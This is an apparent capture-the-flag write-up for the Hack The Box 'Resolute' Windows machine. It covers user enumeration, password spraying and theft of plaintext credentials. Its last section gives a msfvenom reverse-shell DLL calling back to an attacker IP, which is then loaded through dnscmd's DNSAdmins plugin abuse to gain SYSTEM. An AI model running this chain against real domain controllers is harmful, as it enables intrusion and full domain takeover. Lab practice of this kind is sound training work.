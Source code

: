 ```yaml
---
title: "Hack The Box - Resolute"
tags: [windows,medium,rpc,DNSAdmins Group]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled.png)

⇒ Resolute is an medium difficulty windows machine made by egre55 that teaches us :

- Enumerating users using rpc and password spraying
- Abusing DNSAdmins group for privilege escalation to Domain Admin

---

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%201.png)

---

### Enumerating and Password Spray

⇒ We ran enum4linux and got lots of username and found an password in an user description :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%202.png)

- The password doesnt work for user marko so we try the password for every other account and find that its the password for melanie :

**melanie : Welcome123!**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%203.png)

---

### Privilege Escalation to Ryan

⇒ So after enumerating files in the C:\ drive we discover an unusual directory named PSTranscripts

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%204.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%205.png)

- After reading the txt file we find credentials for user ryan :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%206.png)

**ryan : Serv3r4Admin4cc123**!

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%207.png)

---

### Privilege Escalation to Domain Administrator [ DNSAdmins Group ]

⇒ We see that user ryan is in DNSAdmins group. The following post explains how we can leverage this to escalate our privileges to Domain Administrator :

 [https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%208.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%209.png)

- First we'll generate the dll payload using msfvenom

**msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1234 --platform=windows -f dll > enox.dll**

- Starting up smbserver to host our **dll** so it doesnt get nuked by AV

**python3 [smbserver.py](http://smbserver.py/) -smb2support enox /home/kali/Desktop/HackTheBox/Machines/Resolute/**

- Next we will be importing the plugin to the server 

**dnscmd.exe /config /serverlevelplugindll \\10.10.14.21\enox\enox.dll**

- Now we just have to restart the dns service

    **sc.exe stop dns**

    **sc.exe start dns**

    ⇒ Then finally we get system

    ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Resolute%20Box%20017c2b66b1294bf79adf8be27e62c2ea/Untitled%2010.png)

    ---
